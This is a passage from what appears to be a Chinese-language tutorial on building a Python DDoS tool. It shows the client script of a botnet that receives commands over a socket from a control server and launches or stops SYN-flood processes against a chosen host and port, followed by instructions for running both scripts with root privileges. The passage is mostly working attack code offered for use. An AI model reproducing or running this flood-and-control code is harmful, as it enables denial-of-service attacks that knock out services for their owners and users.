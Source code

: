 ```
                    print(&#39;The synFlood is start&#39;)
                    p = Process(target=synFlood,args=(m_host,m_port))
                    p.start()
                    curProcess = p
                #DDoS停止命令
                elif m_cmd.lower() ==&#39;stop&#39;:
                    if curProcess.is_alive():
                        curProcess.terminate()
                        os.system(&#39;clear&#39;)
            except:
                print(&#39;Failed to perform the command!&#39;)
                
def main():
    #添加需要解析的命令
    p = argparse.ArgumentParser()
    p.add_argument(&#39;-H&#39;, dest=&#39;host&#39;, type=str)
    p.add_argument(&#39;-p&#39;, dest=&#39;port&#39;, type=int)
    p.add_argument(&#39;-c&#39;, dest=&#39;cmd&#39;, type=str)
    print(&#34;*&#34; * 40)
    try:
        #创建socket对象
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        #连接到服务器端
        s.connect((&#39;127.0.0.1&#39;,58868))
        print(&#39;To connected server was success!&#39;)
        print(&#34;=&#34; * 40)
        #处理命令
        cmdHandle(s,p)
    except:
        print(&#39;The network connected failed!&#39;)
        print(&#39;Please restart the script!&#39;)
        sys.exit(0)

if __name__ == &#39;__main__&#39;:
    main()
```

## 四、程序测试

准备工作都做好了，现在我们来测试一下我们的脚本是否能完成我们的任务。

首先我们运行`Server端`脚本：

```
sudo python3 ddosSrv.py
```

然后运行`Client端`脚本，记住这里一定要用`root`权限来运行:

```
sudo python3 ddosCli.py
```
